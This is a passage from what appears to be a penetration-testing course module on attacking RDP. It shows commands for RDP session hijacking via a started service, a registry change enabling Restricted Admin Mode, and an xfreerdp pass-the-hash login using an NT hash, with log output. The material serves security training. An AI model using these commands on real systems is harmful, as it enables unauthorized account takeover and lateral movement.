 ![](https://academy.hackthebox.com/storage/modules/116/rdp_session-2-2.png)

To run the command, we can start the `sessionhijack` service :

  Attacking RDP

```cmd-session
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-3-2.png)

_Note: This method no longer works on Server 2019._

---

## RDP Pass-the-Hash (PtH)

We may want to access applications or software installed on a user's Windows system that is only available with GUI access during a penetration test. If we have plaintext credentials for the target user, it will be no problem to RDP into the system. However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password? In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

#### Adding the DisableRestrictedAdmin Registry Key

  Attacking RDP

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

  Attacking RDP

```shell-session
0xCZR@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
```